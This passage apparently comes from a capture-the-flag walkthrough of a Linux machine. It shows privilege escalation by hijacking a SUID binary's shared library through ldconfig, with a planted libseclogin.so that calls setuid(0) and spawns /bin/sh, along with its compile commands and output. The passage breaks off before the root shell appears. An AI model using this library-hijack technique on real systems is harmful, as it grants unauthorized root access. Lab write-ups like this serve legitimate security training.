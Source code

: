 
And when I run it, my hello world executes:

    
    
    genevieve@dab:/dev/shm$ myexec 
    Enter password: s3cur3l0g1n
    Password is correct
    
    hello, world!
    

I can also change it back by running `ldconfig` with no arguments:

    
    
    genevieve@dab:/dev/shm$ ldconfig
    genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
            linux-vdso.so.1 =>  (0x00007ffdeabf9000)
            libseclogin.so => /usr/lib/libseclogin.so (0x00007fa8bcd00000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa8bc936000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fa8bcf02000)
    

#### Shell

Now, I can update this code to give me a shell:

    
    
    genevieve@dab:/dev/shm$ cat .a.c 
    void seclogin() {
        setuid(0);
        setgid(0);
        execl("/bin/sh","sh",0);
    }
    

I’ll compile (warnings are ok):

    
    
    genevieve@dab:/dev/shm$ gcc -shared -fPIC /dev/shm/.a.c -o /dev/shm/libseclogin.so
    /dev/shm/.a.c: In function ‘seclogin’:
    /dev/shm/.a.c:2:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
         setuid(0);
         ^
    /dev/shm/.a.c:3:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
         setgid(0);
         ^
    /dev/shm/.a.c:4:5: warning: implicit declaration of function ‘execl’ [-Wimplicit-function-declaration]
         execl("/bin/sh","sh",0);
         ^
    /dev/shm/.a.c:4:5: warning: incompatible implicit declaration of built-in function ‘execl’
    /dev/shm/.a.c:4:5: warning: missing sentinel in function call [-Wformat=]
    

I’ll make sure to `ldconfig -f df.conf` if I cleared it earlier or if somehow
it got reset. Then I can run `myexec` and get a root shell:
